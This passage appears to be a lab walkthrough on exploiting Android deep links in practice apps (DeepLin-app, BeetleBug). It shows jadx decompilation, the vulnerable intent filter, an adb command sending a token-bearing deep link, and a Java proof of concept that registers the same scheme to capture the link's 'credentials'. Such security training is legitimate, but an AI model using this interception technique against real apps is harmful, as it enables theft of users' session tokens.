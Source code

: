 ### Exploitation of Deep Links

### App 1: DeepLin-app

**Step 1:** Decompile the app using tools like Jadx.

*   **Command:**

    ```bash
    jadx -d output_folder DeepLin-app.apk
    ```

**Step 2:** Open `AndroidManifest.xml` to identify intent filters.

**Found Intent Filter:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="holiday"/>
</intent-filter>
```

**Exploit via adb:**

```bash
adb shell am start -a android.intent.action.VIEW -d "holiday://whatever.login/test?token=2100537c6456cd8a437f7734fad189a8"
```

**Exploit via PoC:**

```java
Uri deepLinkURL = getIntent().getData(); 
System.out.println("Credentials: " + deepLinkURL.toString());
```

**In `AndroidManifest.xml`:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <data android:scheme="holiday"/>
</intent-filter>
```

### App 2: BeetleBug

**Step 1:** Decompile the app using tools like Jadx.

*   **Command:**

    ```bash
    jadx -d output_folder BeetleBug.apk
    ```
